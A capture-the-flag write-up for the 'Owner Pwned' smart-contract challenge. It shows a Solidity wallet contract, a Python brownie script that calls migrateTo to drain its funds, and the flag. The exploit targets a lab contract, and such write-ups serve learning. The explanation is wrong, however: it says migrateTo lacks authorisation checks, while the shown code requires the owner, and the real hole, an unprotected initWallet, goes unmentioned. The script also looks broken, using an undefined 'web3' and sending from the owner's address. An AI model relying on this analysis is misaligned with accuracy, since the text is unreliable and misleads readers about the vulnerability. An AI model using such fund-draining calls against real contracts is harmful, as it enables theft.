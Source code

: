 # Owner Pwned
> "No one can own my wallet !!!!" He said. Or can someone ? Try to steal his money.

> Connection info: http://web3.dvc.tf:5000/challenge1

## About the Challenge
We need to steal the money by exploiting the weakness in the smart contract. Here is the content of the smart contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
 
 

contract Challenge1 {

    address public me;
    mapping(address => uint256) balances;

//constructor
    function initWallet() public {
        me = msg.sender;
    }

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint256 amount) public {
        require(amount <= balances[msg.sender]);
        payable(msg.sender).transfer(amount);
        balances[msg.sender] -= amount;
    }
//If there is an emergency, i'm protected \o/
    function migrateTo(address to) public {
        require(msg.sender == me, "Only me can withdraw all the funds");
        payable(to).transfer(address(this).balance);
    }
//getBalance returns the balance of the contract, it is always nice to check my fortune 
    function getBalance() public view returns (uint) 
    {
        return (address(this).balance / 1 ether);
    }

}
```

## How to Solve?
As you can see in the smart contract code above, there is a vulnerability on `migrateTo` function. The `migrateTo` function allows the owner of the contract to withdraw the funds to an address. This function does not have any checks to ensure that the destination address is valid or that the contract owner is authorized to withdraw the funds. So we need to call `migrateTo` function. First, you need to deploy the smart contract first

![deploy](images/deploy.png)

I created a python script using `brownie` package to solve this chall

```python
from brownie import Challenge1
from web3 import Web3

contract = Challenge1.at('0x14DfF8A248E1987E352104CE9e93E84DdC93f566')
balance = contract.getBalance()
print(balance)

private_key = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
account = web3.eth.account.privateKeyToAccount(private_key)
tx = contract.migrateTo(account.address, {'from': contract.me(), 'nonce': 422, 'gasPrice': web3.eth.gas_price, 'gas': 200000, 'allow_revert': True})
```

First the code will import the `Challenge1` smart contract and I tried to print the balance first. And then I setup a private key and account for a user who wants to call the `migrateTo` function of the contract to withdraw all the funds. The private key is used to sign the transaction and the account is used to specify the destination address where the funds should be transferred. And I called the `migrateTo` function and verify it on the challenge page to get the flag

```
dvCTF{Wh3r3D1DMyMon3YW3nt}
```